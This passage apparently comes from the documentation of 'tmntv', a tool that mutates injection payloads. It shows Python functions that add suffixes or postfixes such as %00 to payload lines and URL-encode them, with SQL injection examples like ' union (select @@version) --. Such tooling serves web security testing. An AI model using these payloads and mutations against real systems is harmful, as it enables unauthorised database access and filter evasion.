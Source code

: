 
  * Example of Suffix Adder:

Input payload file content: ' union (select @@version) --

Output payload file content: );' union (select @@version) --

**Note**: The tmntv(version) tool will take as an input a single file.Also the Suffix Adder will read through the SuffixFile and add all listed suffixes.

This function adds postfixes e.g. %00 etc :

---

```

def postfixAdder(_payloadList): # Adding postfixes
    
 checkDirectoryExitstance() 

 currentTime = getTime()+'_'

 _mutatePayloadFile = currentTime = getTime()+'_'+"postfixedPayloads.lst"
 _mutatePayloadFileObj = open(_mutatePayloadFile,"w")

 _postfixElementsFile = postfixFile
 _postfixElementObj = open(_postfixElementsFile,"r")
    
 _postfixList = _postfixElementObj.readlines()
 
 for _postfix in _postfixList: 
  for _payloadline in _payloadList:
    _mutatePayloadFileObj.write(str(_payloadline).rstrip()+str(_postfix).rstrip()+"\n")
    
 _mutatePayloadFileObj.close()

```

---

  * Example of Postfix Adder:

Input payload file content: ' union (select @@version) --

Output payload file content:  ' union (select @@version) --%00

**Note**: The tmntv(version) tool will take as an input a single file. Also the post fix Adder will read through the PostfixFile and add all listed post fixes.

This function does url encoding:

---

```

def urlEncoder(_payloadList): # Do single url encoding 

 currentTime = getTime()+'_'

 _mutatePayloadFile = currentTime = getTime()+'_'+"urlEncodedPayloads.lst"
 _mutatePayloadFileObj = open(_mutatePayloadFile,"w")
 
 for _payloadline in _payloadList:
  _mutatePayloadFileObj.write((urllib.urlencode({'q':str(_payloadline).rstrip()})).replace("q=", "")+"\n")

 _mutatePayloadFileObj.close()

```

---